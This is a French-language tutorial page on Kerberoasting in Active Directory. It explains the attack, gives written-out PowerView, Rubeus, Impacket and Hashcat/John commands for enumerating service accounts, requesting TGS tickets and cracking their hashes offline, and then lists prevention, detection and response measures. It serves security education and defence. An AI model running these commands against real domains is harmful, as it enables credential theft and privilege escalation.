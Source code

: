 ```yaml
---
title: Kerberoasting
date: '2025-07-14'
draft: false
---
```


# 🔥 Kerberoasting

## Qu'est-ce que le Kerberoasting ?

Le **Kerberoasting** est une technique d'attaque Active Directory qui consiste à demander des tickets de service Kerberos (TGS) pour des comptes de service, puis à tenter de casser le hash du mot de passe hors-ligne. Cette attaque permet à un attaquant ayant un accès authentifié au domaine d'obtenir des mots de passe de comptes à privilèges.

## 🎯 Objectif de l'attaque

L'objectif principal est d'extraire des hashes de mots de passe de comptes de service (Service Accounts) qui utilisent souvent des mots de passe faibles ou réutilisés, permettant ainsi une élévation de privilèges dans l'environnement Active Directory.

## 📋 Étapes de l'attaque

### 1. Énumération des comptes de service

Identifier les comptes de service disposant d'un SPN (Service Principal Name) :

```powershell
# Avec PowerView
Get-NetUser -SPN | Select-Object samaccountname,serviceprincipalname

# Avec AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

### 2. Demande de tickets TGS

Demander des tickets Kerberos pour les comptes de service identifiés :

```powershell
# Avec Rubeus
Rubeus.exe kerberoast /user:serviceaccount /outfile:hashes.txt

# Avec Impacket
python3 GetUserSPNs.py -request domain.local/user:password
```

### 3. Extraction des hashes

Extraire les hashes des tickets obtenus pour analyse hors-ligne.

### 4. Craquage des hashes

Utiliser des outils comme Hashcat ou John the Ripper pour casser les mots de passe :

```bash
# Avec Hashcat
hashcat -m 13100 -a 0 hash.txt wordlist.txt

# Avec John the Ripper
john --wordlist=wordlist.txt hash.txt
```

## 🛡️ Contre-mesures

### Prévention

- **Mots de passe forts** : Utiliser des mots de passe complexes et uniques pour tous les comptes de service
- **Rotation régulière** : Implémenter une politique de rotation des mots de passe
- **Principe du moindre privilège** : Limiter les droits des comptes de service au strict nécessaire
- **Groupes de sécurité** : Utiliser des groupes dédiés pour les comptes de service

### Détection

- **Surveillance des requêtes TGS** : Monitorer les demandes de tickets inhabituelles
- **Logs d'audit** : Activer l'audit détaillé des événements Kerberos
- **Alertes SIEM** : Configurer des alertes pour les patterns suspects
- **Analyse comportementale** : Détecter les activités anormales des comptes de service

### Réponse

- **Isolation immédiate** : Isoler les comptes compromis
- **Changement de mots de passe** : Forcer le changement de tous les mots de passe concernés
- **Analyse forensique** : Investiguer l'étendue de la compromission
- **Documentation** : Documenter l'incident et les leçons apprises

## 🔧 Outils populaires

| Outil               | Description                             | Plateforme       |
| ------------------- | --------------------------------------- | ---------------- |
| **Rubeus**          | Outil C# pour l'exploitation Kerberos   | Windows          |
| **Impacket**        | Collection d'outils Python              | Multi-plateforme |
| **PowerView**       | Module PowerShell pour l'énumération AD | Windows          |
| **Hashcat**         | Craqueur de hashes haute performance    | Multi-plateforme |
| **John the Ripper** | Craqueur de mots de passe classique     | Multi-plateforme |

## 📚 Ressources supplémentaires

- [Guide complet sur HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoasting)
- [Documentation Microsoft sur Kerberos](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [OWASP Active Directory Security](https://owasp.org/www-project-active-directory-security/)

---

_Dernière mise à jour : 14 juillet 2025_
